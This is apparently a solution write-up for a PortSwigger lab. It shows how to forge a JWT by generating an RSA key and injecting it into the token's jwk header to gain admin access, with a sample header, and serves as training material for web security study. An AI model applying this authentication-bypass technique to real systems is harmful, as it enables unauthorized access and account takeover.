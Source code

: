 # [Lab: JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)

## Lab

This lab uses a JWT-based mechanism for handling sessions. The server supports the  `jwk`  parameter in the  [JWT](https://portswigger.net/web-security/jwt)  header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source.

To solve the lab, modify and sign a JWT that gives you access to the admin panel at  `/admin`, then delete the user  `carlos`.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution

intercept a request contains jwt.

generate RSA key:
![generate-key](../img/lab-4-generate-rsa-key.png)

sign with rsa:
![sign](../img/lab-4-sign.png)

copy key to `jwk` at header:

```json
{
    "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "p": "-m6TGEZy1OEuMUc9D8ws1FTtAyaD2OVpGBDauMOIVmbRKFkkaHfAR-qk7A1szo-VtW4mZ3vkD-9bGRNQ7ttEFhaPz1iArG0gveJTcdliLoaGxL9aVEWlXF6wJtKcn9HPaPxQzMWmrEOr1g4yb8yUmrWZeCiGATSYgjKvVEwULuE",
        ...
        "e": "AQAB",
        "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
        ...
    }
}
```

now we can use this jwt to login as administrator and delete carlos.
